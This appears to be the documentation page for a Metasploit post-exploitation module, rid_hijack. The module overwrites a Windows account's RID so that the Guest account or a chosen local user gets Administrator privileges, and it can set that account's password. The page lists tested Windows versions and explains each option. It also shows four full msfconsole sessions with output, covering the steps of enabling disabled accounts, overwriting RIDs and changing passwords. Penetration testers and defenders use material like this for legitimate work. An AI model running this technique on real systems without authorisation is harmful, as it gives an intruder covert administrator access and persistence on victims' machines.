 ## Overview

This module will create an entry on the target by modifying some properties of an existing account. It will change the account attributes by setting a Relative Identifier (RID), which should be owned by one existing account on the destination machine.

Taking advantage of some Windows Local Users Management integrity issues, this module will allow to authenticate with one known account credentials (like GUEST account), and access with the privileges of another existing account (like ADMINISTRATOR account), even if the spoofed account is disabled.

By using a `meterpreter` session against a Windows host, the module will try to acquire _**SYSTEM**_ privileges if needed, and will modify some attributes to hijack the permissions of an existing local account and set them to another one.

## Vulnerable Software

This module has been tested against:

- Windows XP, 2003. (32 bits)
- Windows 8.1 Pro. (64 bits)
- Windows 10. (64 bits)
- Windows Server 2012. (64 bits)

This module was not tested against, but may work on:

- Other versions of windows (x86 and x64).

## Options

- **GETSYSTEM**: Try to get _**SYSTEM**_ privileges on the victim. Default: `false`

- **GUEST_ACCOUNT**: Use the _**GUEST**_ built-in account as the destination of the privileges to be hijacked. Set this account as the _hijacker_. Default: `false`.

- **SESSION**: The session to run this module on. Default: `none`.

- **USERNAME**: Set the user account (_SAM Account Name_) of the victim host which will be the destination of the privileges to be _hijacked_. Set this account as the _hijacker_. If **GUEST_ACCOUNT** option is set to `true`, this parameter will be ignored if defined. Default: `none`.

- **PASSWORD**: Set or change the password of the account defined as the destination of the privileges to be hijacked, either _**GUEST**_ account or the user account set in **USERNAME** option. Set password to the _hijacker_ account. Default: `none`.

- **RID**: Specify the RID number in decimal of the _victim account_. This number should be the RID of an existing account on the target host, no matter if it is disabled (i.e.: The RID of the _**Administrator**_ built-in account is 500). Set the RID owned by the account that will be _hijacked_. Default: `500`

## Scenarios
### Assigning Administrator privileges to Guest built-in account.
```
msf post(rid_hijack) > set GETSYSTEM true
GETSYSTEM => true
msf post(rid_hijack) > set GUEST_ACCOUNT true
GUEST_ACCOUNT => true
msf post(rid_hijack) > set SESSION 1
SESSION => 1
msf post(rid_hijack) > run

[*] Checking for SYSTEM privileges on session
[+] Session is already running with SYSTEM privileges
[*] Target OS: Windows 8.1 (Build 9600).
[*] Target account: Guest Account
[*] Target account username: Invitado
[*] Target account RID: 501
[*] Account is disabled, activating...
[+] Target account enabled
[*] Overwriting RID
[+] The RID 500 is set to the account Invitado with original RID 501
[*] Post module execution completed
```
#### Results after login in as the Guest account.

![guest_account](https://user-images.githubusercontent.com/14118912/36490462-4bf84d68-16f6-11e8-811c-bf2d8c42b93d.PNG)

### Assigning Administrator privileges to local custom account.
```
msf post(rid_hijack) > set GETSYSTEM true
GETSYSTEM => true
msf post(rid_hijack) > set GUEST_ACCOUNT false
GUEST_ACCOUNT => false
msf post(rid_hijack) > set USERNAME testuser
USERNAME => testuser
msf post(rid_hijack) > run

[*] Checking for SYSTEM privileges on session
[+] Session is already running with SYSTEM privileges
[*] Target OS: Windows 8.1 (Build 9600).
[*] Checking users...
[+] Found testuser account!
[*] Target account username: testuser
[*] Target account RID: 1002
[+] Target account is already enabled
[*] Overwriting RID
[+] The RID 500 is set to the account testuser with original RID 1002
[*] Post module execution completed
```
#### Results after login in as the _testuser_ account.
![testuser](https://user-images.githubusercontent.com/14118912/36490561-837bd2f0-16f6-11e8-8dc6-53283bb4d9ea.PNG)

### Assigning custom privileges to Guest built-in account and setting new password to Guest.
```
msf post(rid_hijack) > set GUEST_ACCOUNT true
GUEST_ACCOUNT => true
msf post(rid_hijack) > set RID 1002
RID => 1002
msf post(rid_hijack) > set PASSWORD Password.1
PASSWORD => Password.1
msf post(rid_hijack) > run

[*] Checking for SYSTEM privileges on session
[+] Session is already running with SYSTEM privileges
[*] Target OS: Windows 8.1 (Build 9600).
[*] Target account: Guest Account
[*] Target account username: Invitado
[*] Target account RID: 501
[+] Target account is already enabled
[*] Overwriting RID
[+] The RID 1002 is set to the account Invitado with original RID 501
[*] Setting Invitado password to Password.1
[*] Post module execution completed
```
### Assigning custom privileges to local custom account and setting new password to custom account.
```
msf post(rid_hijack) > set GUEST_ACCOUNT false
GUEST_ACCOUNT => false
msf post(rid_hijack) > set USERNAME testuser
USERNAME => testuser
msf post(rid_hijack) > set PASSWORD Password.2
PASSWORD => Password.2
msf post(rid_hijack) > run

[*] Checking for SYSTEM privileges on session
[+] Session is already running with SYSTEM privileges
[*] Target OS: Windows 8.1 (Build 9600).
[*] Checking users...
[+] Found testuser account!
[*] Target account username: testuser
[*] Target account RID: 1002
[+] Target account is already enabled
[*] Overwriting RID
[+] The RID 1002 is set to the account testuser with original RID 1002
[*] Setting testuser password to Password.2
[*] Post module execution completed
```

## References

[CSL LABS: RID Hijacking on Windows](http://csl.com.co/rid-hijacking/)
